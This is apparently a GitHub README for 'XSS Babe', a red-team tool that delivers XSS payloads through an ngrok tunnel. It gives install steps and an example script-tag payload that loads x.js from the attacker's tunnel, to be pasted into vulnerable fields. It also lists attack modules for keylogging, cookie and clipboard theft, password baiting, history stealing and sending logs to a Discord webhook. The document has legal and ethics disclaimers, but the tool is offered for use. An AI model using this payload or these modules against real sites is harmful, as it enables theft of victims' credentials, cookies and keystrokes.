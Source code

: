 # XSS BABE 🖤

XSS Babe is a red team tool for exploiting XSS vulnerabilities in real time. It automates payload delivery, logs sessions, and enables live browser-based attacks from a command-line interface. Built for ethical hacking, phishing research, and security education.

---

## ⚠️ Legal Disclaimer

Never use this tool without proper consent. 
 
User assumes all risks when using this tool.

ekomsSavior provides this tool without warranty. 
 

---

##  Installation

**Dependencies (Tested on Kali Linux):**

```bash
sudo apt update
sudo apt install python3 python3-pip unzip -y
pip3 install -r requirements.txt
```

**Install Ngrok:**

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
```

---

##  Ngrok Setup

1. Sign up: https://ngrok.com/signup  
2. Get your auth token: https://dashboard.ngrok.com/get-started/setup  
3. Add it to your config:

```bash
ngrok config add-authtoken YOUR_TOKEN_HERE
```

---

##  Usage

```bash
python3 xss_babe_cli.py
```

### What Happens:

- You enter a vulnerable XSS URL (e.g. `https://vuln.site/?q=`)
- Flask server and Ngrok auto-launch
- Payload is generated with the hosted `x.js`
- CLI menu opens with live attack modules
- All session info is logged to `session_reports/`

---

##  Example Payload

Replace `YOUR_NGROK_URL` with the tunnel shown in the CLI:

```html
<script src="https://YOUR_NGROK_URL/static/x.js"></script>
```

Paste this into any vulnerable parameter, form, or field you control.

---

##  Attack Modules

| Module                   | Description                                         |
|--------------------------|-----------------------------------------------------|
| keylogger                | Records keystrokes live from the victim             |
| clipboard                | Dumps clipboard contents                            |
| auto_cookie_steal        | Steals document cookies silently                    |
| discord_logger           | Sends logs to Discord webhook (edit inside script)  |
| fake_download            | Triggers fake file downloads (ZIP, PDF, etc.)       |
| password_bait            | Displays bait input field to trap saved passwords   |
| history_stealer          | Dumps limited browsing history if accessible        |
| cross_tab_messaging_spy  | Tracks multiple browser tabs or windows             |

---

##  Session Logs

All payloads and events are saved to:

```
session_reports/YYYY-MM-DD-HHMMSS.txt
```

This includes:
- Target URL
- Payload used
- Ngrok tunnel
- Timestamp

---

## Stay Ethical

Never deploy on unauthorized systems.

---

##  Author by [ekomsSavior](https://github.com/ekomsSavior) 🖤
